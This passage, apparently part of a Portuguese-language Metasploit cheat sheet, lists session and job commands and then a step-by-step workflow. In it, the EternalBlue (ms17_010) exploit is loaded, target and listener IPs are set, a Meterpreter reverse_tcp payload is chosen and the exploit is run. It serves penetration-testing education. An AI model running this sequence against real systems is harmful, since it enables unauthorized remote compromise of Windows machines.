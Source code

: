   ```
  sessions -i 1
  ```
* `sessions -k <id>` → encerra uma sessão.

**7. Outros úteis**

* `jobs` → lista jobs rodando em background.
* `jobs -k <id>` → mata um job.
* `history` → histórico de comandos.
* `help` → mostra ajuda.
* `banner` → muda a arte ASCII da inicialização 😁.

### Fluxo típico de uso

1. **Buscar módulo:**
   ```
   search ms17_010
   ```
2. **Carregar exploit:**
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```
3. **Ver opções e payloads:**
   ```
   show options
   show payloads
   ```
4. **Configurar parâmetros:**
   ```
   set RHOSTS 192.168.1.100
   set LHOST 192.168.1.50
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```
5. **Executar ataque:**
   ```
   exploit
   ```
6. **Gerenciar sessões:**
   ```
   sessions -i 1
   ```
